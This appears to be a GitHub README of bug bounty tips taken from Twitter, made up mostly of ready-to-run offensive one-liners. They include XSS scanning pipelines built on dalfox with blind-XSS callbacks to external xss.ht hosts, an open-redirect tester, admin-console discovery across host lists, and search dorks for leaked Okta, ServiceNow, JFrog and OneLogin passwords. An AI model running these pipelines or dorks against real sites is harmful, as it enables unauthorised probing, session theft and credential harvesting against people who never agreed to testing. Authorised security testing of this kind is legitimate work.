 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
**OKTA**
http://okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
**ServiceNOW**
service-now password
**Jfrog**
http://jfrog.io password
**onelogin**
http://onelogin.com password
```

## XSS PARAMSPIDER + GF XSS + DALFOX

```
python paramspider --domain target.com -o output
cat output | gf xss > gf_xss.txt
cat gf_xss.txt | dalfox -b yoursite.xss.ht
```
